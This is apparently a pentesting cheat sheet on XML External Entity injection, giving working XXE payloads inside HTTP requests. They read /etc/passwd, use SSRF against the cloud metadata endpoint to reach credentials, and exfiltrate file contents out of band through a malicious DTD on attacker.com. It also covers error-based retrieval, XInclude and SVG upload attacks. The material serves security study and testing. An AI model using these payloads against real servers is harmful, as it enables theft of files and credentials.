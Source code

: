 # 🔴 XML External Entity (XXE) Injection

## <mark style="color:red;">Intro</mark>

The XML document type definition (DTD) contains declarations that can define the structure of an XML document. The DTD is declared within the optional DOCTYPE element at the start of the XML document.

XXE are a type of custom XML entity whose defined values are loaded from outside of the DTD.

Allows an attacker to interfere with an application's processing of XML data.

#### <mark style="color:red;">**Examples**</mark>

* Custom entities to be defined within the DTD\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`myentity`</mark>` ``"`<mark style="color:yellow;">`my entity value`</mark>`" > ]>`&#x20;
* XML external entities\
  uses the "SYSTEM" keyword and must specify a URL\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`NAME`</mark>` ``SYSTEM "`<mark style="color:yellow;">`http://normal-website.com`</mark>`" > ]>`\
  `<!DOCTYPE foo [ <!ENTITY`` `<mark style="color:orange;">`NAME`</mark>` ``SYSTEM "`<mark style="color:yellow;">`file:///path/to/file`</mark>`" > ]>`&#x20;

## <mark style="color:red;">Types of XXE attacks</mark>

### <mark style="color:orange;">Exploiting XXE to retrieve files</mark>

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><MainTag><VulTag>&xxe;</VulTag></MainTag>
```

### <mark style="color:orange;">Exploiting XXE to perform SSRF attacks</mark>

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE test [ <!ENTITY ssrf SYSTEM "http://169.254.169.254/admin/security-credentials"> ]><MainTag><VulTag>&ssrf;</VulTag></MainTag>
```

### <mark style="color:orange;">Blind XXE vulnerabilities</mark>

Does not return the values of any defined external entities within its responses.

```
// Edit HTTP request with "BurpSuit Proxy"
// Detecting: DNS lookup and HTTP request (with Burp Collaborator client)

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.attacker.com"> ]>]><MainTag><VulTag>&xxe;</VulTag></MainTag>
```

```
// Edit HTTP request with "BurpSuit Proxy"
// Detecting: DNS lookup and HTTP request (with Burp Collaborator client) + XML parameter entity

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.attacker.com"> %xxe; ]>
```

Use the FTP protocol instead of HTTP, it will be possible to exfiltrate data containing newline character

### <mark style="color:orange;">Exploiting blind XXE exfiltrate data out-of-band</mark>

* Attacker create a malicious DTD on his server (malicious.dtd) like:

```
// "malicious.dtd" File

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

* Attacker must submit the following XXE payload to the vulnerable application:

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]> 
```

* Use the FTP protocol instead of HTTP, it will be possible to exfiltrate data containing newline characters

## <mark style="color:red;">Exploiting blind XXE to retrieve data via error messages</mark>

<mark style="color:green;">**First method**</mark>

* Attacker create a malicious DTD on his server (malicious.dtd) like:

```
// "malicious.dtd" File

<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

* Attacker must submit the following XXE payload to the vulnerable application:

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/malicious.dtd"> %xxe;]> 
```

<mark style="color:green;">**Second method**</mark>

* Retrieve data via repurposing a local DTD

```
// Edit HTTP request with "BurpSuit Proxy"

POST /web/path HTTP/1.1
Host: test.net
...
Connection: close

<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM 
&#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]> 
```



## <mark style="color:red;">Finding hidden attack surface for XXE injection</mark>

### <mark style="color:orange;">XInclude attacks</mark>

Some applications receive client-submitted data, embed it on the server-side into an XML document like: backend SOAP service.

"XInclude" is a part of the XML specification that allows an XML document to be built from sub-documents.

```
// Edit HTTP request with "BurpSuit Proxy"
POST /product/stock HTTP/1.1
Host: web-security-academy.net
...
Connection: close

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> &storeId=1
```

### <mark style="color:orange;">XXE attacks via file upload</mark>

If uploaded files which are then processed server-side, it can be vulnerable. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

Create a SVG image with this payload and upload it. The result will be on the image.

<pre><code><strong>&#x3C;?xml version="1.0" standalone="yes"?>&#x3C;!DOCTYPE test [ &#x3C;!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>&#x3C;svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">&#x3C;text font-size="16" x="0" y="16">&#x26;xxe;&#x3C;/text>&#x3C;/svg>
</strong></code></pre>

### <mark style="color:orange;">XXE attacks via modified content type</mark>

You might be able submit the following request, with the same result.

```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```

Server parses the body content as XML, then you can reach the hidden XXE attack surface

